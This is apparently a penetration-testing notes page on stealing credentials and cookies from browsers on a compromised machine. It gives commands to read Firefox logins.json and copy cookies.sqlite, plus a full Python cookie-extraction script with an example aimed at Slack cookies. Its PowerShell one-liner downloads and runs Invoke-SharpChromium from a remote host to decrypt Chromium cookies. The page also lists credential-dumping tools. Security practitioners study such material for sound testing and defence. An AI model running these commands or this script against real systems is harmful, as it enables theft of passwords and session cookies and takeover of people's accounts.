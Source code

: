 ```yaml
---
title: Pentesting browsers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - browsers
  - chrome
  - firefox
  - tools
---
```

# Pentesting Browsers


## Dumping memory and cache: focus on credentials

[mimipenguin](https://github.com/huntergregal/mimipenguin)
[lazagne](lazagne.md)

Firefox stored credentials:

```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/xxxxxxxxx-xxxxxxxxxx/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.


## Dumping data from session, local data and others

### HackBrowserData
[HackBrowserData](https://github.com/moonD4rk/HackBrowserData):  HackBrowserData is a command-line tool for decrypting and exporting browser data (passwords, history, cookies, bookmarks, credit cards, download history, localStorage and extensions) from the browser. It supports the most popular browsers on the market and runs on Windows, macOS and Linux.


### Cookie extraction with [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

We can copy the file to our machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

This is the script:

```python
#!/usr/bin/env python3
# Sample Script to extract cookies offile from FireFox sqlite database 
# Created by PlainText 

import argparse
import sqlite3

def main(dbpath, host, cookie):
	conn = sqlite3.connect(dbpath)
	cursor = conn.cursor()

	if (host == "" and cookie == ""):
		query = "SELECT * FROM moz_cookies"
	elif (host != "" and cookie == ""):
		query = "SELECT * FROM moz_cookies WHERE host LIKE '%{}%'".format(host)
	elif (host == "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%'".format(cookie)
	elif (host != "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%' AND host LIKE '%{}%'".format(cookie, host)

	cursor.execute(query)
	records = cursor.fetchall()
	rowCount = len(records) 

	if (rowCount > 0):
		for row in records:
			print(row)
	else:
		print("[-] No cookie found with the selected options.")

	conn.close()

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("--dbpath", "-d", required=True, help="The path to the sqlite cookies database")
	parser.add_argument("--host", "-o", required=False, help="The host for the cookie", default="")
	parser.add_argument("--cookie", "-c", required=False, help="The name of the cookie", default="")
	args = parser.parse_args()
	main(args.dbpath, args.host, args.cookie)
```

```shell-session
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```


### Cookie Extraction from Chromium-based Browsers

The chromium-based browser also stores its cookies information in an SQLite database. The only difference is that the cookie value is encrypted with [Data Protection API (DPAPI)](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection). `DPAPI` is commonly used to encrypt data using information from the current user account or computer.

To get the cookie value, we'll need to perform a decryption routine from the session of the user we compromised.

[SharpChromium](https://github.com/djhohnstein/SharpChromium) does what we need: It connects to the current user SQLite cookie database, decrypts the cookie value, and presents the result in JSON format.

Let's use [Invoke-SharpChromium](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1), a PowerShell script created by [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) which uses reflection to load SharpChromium.

**PowerShell Script - Invoke-SharpChromium**

```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"
```
